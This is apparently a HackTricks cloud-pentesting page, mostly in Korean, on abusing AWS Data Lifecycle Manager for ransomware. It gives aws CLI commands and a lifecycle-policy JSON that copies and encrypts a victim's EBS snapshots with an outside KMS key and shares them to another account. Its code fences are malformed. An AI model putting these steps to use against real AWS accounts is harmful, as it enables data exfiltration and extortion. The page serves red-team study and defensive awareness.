 # AWS - 데이터 라이프사이클 관리자

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

## 데이터 라이프사이클 관리자 (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

랜섬웨어 공격은 가능한 많은 EBS 볼륨을 암호화한 다음 현재 EC2 인스턴스, EBS 볼륨 및 스냅샷을 삭제함으로써 실행될 수 있습니다. 이 악의적인 활동을 자동화하기 위해 Amazon DLM을 사용하여 다른 AWS 계정의 KMS 키로 스냅샷을 암호화하고 암호화된 스냅샷을 다른 계정으로 전송할 수 있습니다. 또는 암호화하지 않은 스냅샷을 관리하는 계정으로 전송한 다음 해당 계정에서 암호화할 수 있습니다. 기존 EBS 볼륨이나 스냅샷을 직접 암호화하는 것은 간단하지 않지만 새 볼륨이나 스냅샷을 만들어서 가능합니다.

먼저 인스턴스 ID, 볼륨 ID, 암호화 상태, 첨부 상태 및 볼륨 유형과 같은 볼륨에 대한 정보를 수집하는 명령을 사용합니다.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```
aws dlm create-lifecycle-policy --description "내 첫 번째 정책" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
    "PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
    "ResourceTypes": [
        "VOLUME"
    ],
    "TargetTags": [
        {
            "Key": "ExampleKey",
            "Value": "ExampleValue"
        }
    ],
    "Schedules": [
        {
            "Name": "DailySnapshots",
            "CopyTags": true,
            "TagsToAdd": [
                {
                    "Key": "SnapshotCreator",
                    "Value": "DLM"
                }
            ],
            "VariableTags": [
                {
                    "Key": "CostCenter",
                    "Value": "Finance"
                }
            ],
            "CreateRule": {
                "Interval": 24,
                "IntervalUnit": "HOURS",
                "Times": [
                    "03:00"
                ]
            },
            "RetainRule": {
                "Count": 14
            },
            "FastRestoreRule": {
                "Count": 2,
                "Interval": 12,
                "IntervalUnit": "HOURS"
            },
            "CrossRegionCopyRules": [
                {
                    "TargetRegion": "us-west-2",
                    "Encrypted": true,
                    "CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
                    "CopyTags": true,
                    "RetainRule": {
                        "Interval": 1,
                        "IntervalUnit": "DAYS"
                    }
                }
            ],
            "ShareRules": [
                {
                    "TargetAccounts": [
                        "123456789012"
                    ],
                    "UnshareInterval": 30,
                    "UnshareIntervalUnit": "DAYS"
                }
            ]
        }
    ],
    "Parameters": {
        "ExcludeBootVolume": false
    }
}
```
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
